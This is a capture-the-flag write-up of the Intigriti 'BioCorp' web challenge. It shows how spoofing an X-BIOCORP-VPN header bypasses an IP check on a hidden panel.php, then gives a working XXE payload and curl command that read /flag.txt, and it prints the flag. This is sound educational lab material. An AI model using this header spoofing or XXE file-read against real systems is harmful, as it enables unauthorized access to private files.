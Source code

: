 # Description
BioCorp contacted us with some concerns about the security of their network. Specifically, they want to make sure they've decoupled any dangerous functionality from the public facing website. Could you give it a quick review?

[https://biocorp.ctf.intigriti.io](https://biocorp.ctf.intigriti.io/)


# Flag
INTIGRITI{c4r3ful_w17h_7h053_c0n7r0l5_0r_7h3r3_w1ll_b3_4_m3l7d0wn}

# Analysis 
![image](https://github.com/user-attachments/assets/7e239106-4716-485c-ac1e-ca9b7e42f775)
Upon visiting the site you are greeted with a normal index page. The site features 4 pages that aren't relevant to this challenge as you have the source code of the web app to find the vulnerability within it. 

Inspecting the source code you will find a page that isn't listed on the website which is the panel.php page 
![image](https://github.com/user-attachments/assets/e878d6c0-90e9-4586-80b7-361b43a006e9)

Now you need to understand and analyze the code, I just have gpt summarize it for me but upon first look we can see that there's a check for a header that needs to be passed to gain access to the site in the code:
![image](https://github.com/user-attachments/assets/87a8c45f-830f-4a81-9992-db2f7d0e41d3)

From this code we can tell that you need the header to gain access to the page, so you need to edit the request and add the header with the ip address that has been specified within the code like so:
![image](https://github.com/user-attachments/assets/02b6b91b-aef7-4159-ba00-4b9424c094d2)

Without the header you will be prompted with an access denied page:
![image](https://github.com/user-attachments/assets/e0d0abd1-720e-481e-a526-6d0ab8976000)

Next, within the source code there is a post request that sends xml data to load content from a file document. This is probably the injection point at which you need a xml injection for xxe injection to read the /flag.txt . The code that shows you this is this one:
![image](https://github.com/user-attachments/assets/8ee5ad77-095d-46b5-87bf-fc674a339f6d)

So now that we know where is our injection point we can make our exploit!

# Solution
The payload that will be used following the source code requirements:
```
<?xml version="1.0"?> <!DOCTYPE root [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]> <root> <temperature>&xxe;</temperature> <pressure>&xxe;</pressure> <control_rods>&xxe;</control_rods> </root>
```

Save the payload to a file like payload.xml and we will use this curl command to send it to the website:
```
curl -X POST -H "X-BIOCORP-VPN: 80.187.61.102" -H "Content-Type: application/xml" -d @payload.xml https://biocorp.ctf.intigriti.io/panel.php
```

After sending the payload the temperature, pressure and control rod values will change to the flag like so:
![image](https://github.com/user-attachments/assets/709eedac-be85-4f74-96ff-39eabebf5c6e)


**IMPORTANT: Do not forget to add the "X-BIOCORP-VPN:" header still otherwise you will get the access denied page!**

#L337upCTF2024
